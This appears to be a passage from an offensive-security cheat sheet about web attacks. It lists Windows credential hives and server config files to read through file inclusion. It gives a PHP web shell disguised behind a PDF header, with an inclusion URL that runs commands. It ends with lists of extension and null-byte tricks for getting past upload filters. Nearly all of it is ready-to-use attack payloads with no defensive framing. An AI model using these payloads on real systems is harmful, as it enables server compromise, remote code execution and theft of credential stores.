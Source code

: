```c
C:/Windows/system32/config/regback/sam
C:/Windows/system32/config/regback/security
C:/Windows/system32/config/regback/system
C:/Windows/system32/config/regback/software
C:/Program Files/MySQL/MySQL Server 5.1/my.ini
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml
C:/Windows/System32/inetsrv/config/applicationHost.config
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
```

#### PDF PHP Inclusion

Create a file with a PDF header, which contains PHP code.

```c
%PDF-1.4

<?php
    system($_GET["cmd"]);
?>
```

```c
http://<RHOST>/index.php?page=uploads/<FILE>.pdf%00&cmd=whoami
```

#### PHP Upload Filter Bypasses

```c
.sh
.cgi
.inc
.txt
.pht
.phtml
.phP
.Php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.jpeg
```

```c
<FILE>.php%20
<FILE>.php%0d%0a.jpg
<FILE>.php%0a
<FILE>.php.jpg
<FILE>.php%00.gif
<FILE>.php\x00.gif
<FILE>.php%00.png
<FILE>.php\x00.png
<FILE>.php%00.jpg
<FILE>.php\x00.jpg
mv <FILE>.jpg <FILE>.php\x00.jpg
```
